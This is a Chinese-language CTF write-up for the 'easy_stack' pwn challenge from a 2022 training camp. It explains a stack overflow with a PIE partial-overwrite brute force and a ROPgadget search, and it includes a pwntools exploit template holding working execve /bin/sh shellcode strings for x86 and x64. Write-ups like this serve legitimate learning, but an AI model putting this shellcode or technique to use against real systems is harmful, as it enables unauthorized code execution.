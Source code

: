 ```yaml
---
title: 2022 星盟集训 Writeup
date: 2022-07-13 17:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=34/
pin: false
published:
---
```


## easy_stack

![image-20220713141222336](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220713141222336.png)

题目简单的一个栈溢出，一个puts，考虑栈溢出覆盖返回地址

![image-20220713141050299](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220713141050299.png)

执行到ret时，发现下方存在main函数指针，考虑写个rop跳转到ret main ，但这里开了PIE，且只有一次输入，只能选择尝试改掉原本ret的函数的低位，需要爆破一下

![image-20220713142855298](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220713142855298.png)

用ROPgadget找对应libc_base下的gadget，找一个能让esp+0x18的即可

```bash
ROPgadget --binary libc-2.27.so --offset 0x7f4cd837a000(libc_base) | grep "pop"
```

exp

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
# context.log_level = 'debug'


elf = ELF("./easy_stack")
libc = ELF('./libc-2.27.so')
# libc = elf.libc

def dbg(con=''):
    gdb.attach(p,con)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
# ROPgadget --binary libc-2.27.so --offset 0x7FBC96163000 | grep "pop"
```